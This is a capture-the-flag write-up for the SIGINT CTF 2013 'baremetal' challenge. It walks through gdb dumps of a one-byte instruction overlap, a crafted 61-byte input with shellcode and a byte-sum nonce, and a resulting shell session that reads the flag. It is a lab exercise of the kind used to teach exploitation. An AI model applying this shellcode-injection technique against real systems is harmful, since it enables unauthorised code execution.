 SIGINT CTF 2013 pwning 100 - baremetal
---

Exploit code: [sploit.py] [1]

Shellcode: [sc.s] [2]

The shellcode must be linked with the base address of the text segment at `0x80491c8`.
This is accomplished by using the linker script: [sc.lds] [3]

### The Specimen

```
$ file baremetal
baremetal: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped
```

### Analysis

The binary is small, and looks like it was written in assembly.

Here is a summary of the binary's execution:
* Writes the string "baremetal online\n" to stdout.
* Reads up to 61 bytes from stdin into a buffer in the .bss section.
* Performs the "sum test." The sum of the bytes is calculated up to the first null byte.
* If the sum is 0x1ee7, the string "Sequence OK" is printed on stdout.
* If the sum is not 0x1ee7, the string "Bad Sequence" is printed on stdout.
* Exit.

Both the buffer and the return address are _not_ stored on the stack.

### The Vulnerability

Before the input is read in, the value `0xe7ff4747` is written to address `0x8049204`.
The input buffer and this 32-bit integer at location `0x8049204` overlap by one byte.
If the sum of the bytes is `0x1ee7`, then a jump is made to `0x8049204`.

This is the state right after the jump to `0x8049204`:
```
0x08049204 in ?? ()
(gdb) x/x $eip
0x8049204:	0xe7ff4747
(gdb) x/4i $eip
=> 0x8049204:	inc    %edi                    ; we can control this byte
   0x8049205:	inc    %edi
   0x8049206:	jmp    *%edi
   0x8049208:	add    %al,(%eax)
(gdb) info registers
eax            0x80491c8        134517192      ; the address of the input buffer
ecx            0x8049204        134517252
edx            0x0              0
ebx            0x47             71
esp            0xbffff820       0xbffff820
ebp            0x0              0x0
esi            0x0              0
edi            0x80480f9        134512889
eip            0x8049204        0x8049204
eflags         0x200206	[ PF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x0	0
(gdb)
```

### The Exploit

The last byte of a 61-byte input becomes the first byte of the instructions at `0x8049204`.
We need to choose a one-byte instruction that will help transfer execution to somewhere in our buffer.
Because EAX holds the address of the input buffer, the one-byte instruction `xchg %eax, %edi` fit this need.
After the `jmp *%edi` at `0x8049208`, execution will continue one byte into our input buffer.

```
(gdb) x/x $eip
0x8049204:	0xe7ff4797              ; Notice that least significant byte is 0x97.
(gdb) x/3i $eip
=> 0x8049204:	xchg   %eax,%edi
   0x8049205:	inc    %edi
   0x8049206:	jmp    *%edi
(gdb) nexti
0x08049205 in ?? ()
(gdb) nexti
0x08049206 in ?? ()
(gdb) nexti
0x080491c9 in ?? ()                     ; Execution is now inside the input buffer.
(gdb)
```

The input must meet these criteria to execute shellcode contained in the input:
* The length must be 61 bytes long.
* The last byte must be the instruction `xchg %eax, %edi`
* The sum of the bytes before the first null must be 0x1ee7.
* Shellcode starts immediatly after the first byte.

I have chosen an input that looks like this:
```
+------+---------------+--------------+-----------------+---------------+------+
| 0x90 |  shellcode    |    nonce     |   0x00 ...      | "/bin/sh\x00" | 0x97 |
+------+---------------+--------------+-----------------+---------------+------+
```
* The first byte is a nop.  It could be anything that isn't null.  It won't be executed.
* The shellcode can't contain any nulls.
* The nonce section contains bytes that are chosen to ensure the input passes the sum test.
* The last byte is 0x97 or `xchg %eax, %edi`

### Action Shot

```
$ ./sploit.py
baremetal online
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
selinux
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
cd home
ls
challenge
cd challenge
ls
baremetal
flag
cat flag
SIGINT_are_you_getting_warmed_up?
uname -a
Linux ubuntu 3.8.0-25-generic #37-Ubuntu SMP Thu Jun 6 20:47:30 UTC 2013 i686 i686 i686 GNU/Linux
```

  [1]: https://github.com/wjlandryiii/ctfs/blob/master/sigint2013/baremetal/sploit.py
  [2]: https://github.com/wjlandryiii/ctfs/blob/master/sigint2013/baremetal/sc.s
  [3]: https://github.com/wjlandryiii/ctfs/blob/master/sigint2013/baremetal/sc.lds
